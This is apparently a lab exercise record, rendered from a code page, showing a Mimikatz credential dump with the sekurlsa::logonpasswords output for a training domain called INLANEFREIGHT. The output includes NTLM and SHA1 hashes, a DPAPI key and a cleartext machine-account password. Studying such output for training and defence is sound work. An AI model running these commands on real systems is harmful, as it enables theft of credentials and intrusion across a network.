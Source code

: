 ```sh
mimikatz # privilege::debug
Privilege '20' OK

# Dump
mimikatz # sekurlsa::logonpasswords


Authentication Id : 0 ; 1971470 (00000000:001e150e)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 5/4/2025 9:26:09 PM
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : PIVOT-SRV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : 21ce18b1a025d4b0b01c0e716e99d476
         * SHA1     : 0f6097d8c745b1addfdfbbe733c1948e5d929527
        tspkg :
        wdigest :
         * Username : PIVOT-SRV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : PIVOT-SRV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : "z4PN$Qc?h1n'mI`r<dzJ:-S?dbm.tA:ANPnGG]1h8,Gb[#Gx`SJj3DOBCwhJW^LMUKkPQb!(P9\<$VDLWL+UL4KDZ&lh^Z_[OEj;Is4= 1GOR+3h<U/a[Q7#"
        ssp :
        credman :

Authentication Id : 0 ; 163007 (00000000:00027cbf)
Session           : Service from 0
User Name         : ****
Domain            : INLANEFREIGHT
Logon Server      : ACADEMY-PIVOT-D
Logon Time        : 5/4/2025 8:24:58 PM
SID               : S-1-5-21-3858284412-1730064152-742000644-1103
        msv :
         [00000003] Primary
         * Username : ****
         * Domain   : INLANEFREIGHT
         * NTLM     : 2e16a00be74fa0bf862b4256d0347e83
         * SHA1     : b055c7614a5520ea0fc1184ac02c88096e447e0b
         * DPAPI    : 97ead6d940822b2c57b18885ffcc5fb4
        tspkg :
        wdigest :
         * Username : vfrank
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : ****
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : ****
        ssp :
        credman :

Authentication Id : 0 ; 2001610 (00000000:001e8aca)
Session           : RemoteInteractive from 2
User Name         : ****
Domain            : PIVOT-SRV01
```